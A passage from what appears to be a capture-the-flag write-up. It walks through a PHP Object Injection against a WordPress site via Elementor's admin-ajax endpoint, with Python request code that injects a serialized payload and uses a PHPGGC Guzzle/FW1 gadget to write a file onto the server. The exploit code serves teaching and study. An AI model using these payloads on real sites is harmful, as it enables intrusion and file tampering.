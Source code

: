 Next, submit the form and intercept the request. Modify the JSON data by adding `error_resetpassword` as the injection point for your PHP Object Injection payload in the `actions` section, next to the `err_email` field.

In my case, I automated this process with a Python script to handle encoding issues (as the unserialized payload contains null bytes):

```python
    with open("test.json", "r") as f:
        data = f.read()
...SNIP...
    res = await api.c.post("/wp-admin/admin-ajax.php", data={
        "action": "elementor_ajax",
        "initial_document_id": post_id,
        "editor_post_id": post_id,
        "_nonce": elementor_nonce,
        "actions": data.replace('"err_email":"You have used an invalid email"', '"error_resetpassword": "' + encode_null_byte(exploit).replace('"', '\\\\"') + '"')
    })

```

Here, `test.json` is the action JSON you intercepted after clicking submit. The script modifies the JSON payload to inject the serialized PHP Object Injection exploit.

### Step 4: **File Upload Using MStore API Gadget**

The target WordPress site uses **Guzzle v7.8.1** in the MStore API plugin, located in `/wp-content/plugins/mstore-api/vendor/guzzlehttp/guzzle`. This version of Guzzle is vulnerable to a file upload exploit. However, since `/var/www/html` is not writable, we can't directly upload files to gain RCE (Remote Code Execution). Instead, we use this vulnerability to bypass certain restrictions in **Verge3D**.

The exploit for file upload will send a stored PHP Object Injection payload. Here's the relevant request:

```python
path = f"/tmp/hacked"
exploit = check_output(["./phpggc/phpggc", "Guzzle/FW1", path, "<your file>"])
await api.c.post("/wp-admin/admin-ajax.php", data={
    "action": "elementor_ajax",
    "initial_document_id": post_id,
    "editor_post_id": post_id,
    "_nonce": elementor_nonce,
    "actions": data.replace('"err_email":"You have used an invalid email"', '"error_resetpassword": "' + encode_null_byte(exploit).replace('"', '\\\\"') + '"')
})

```

In this process:

*   The payload is generated using **PHPGGC** with the `Guzzle/FW1` gadget.

*   The file is uploaded to the `/tmp/hacked` directory on the remote server.
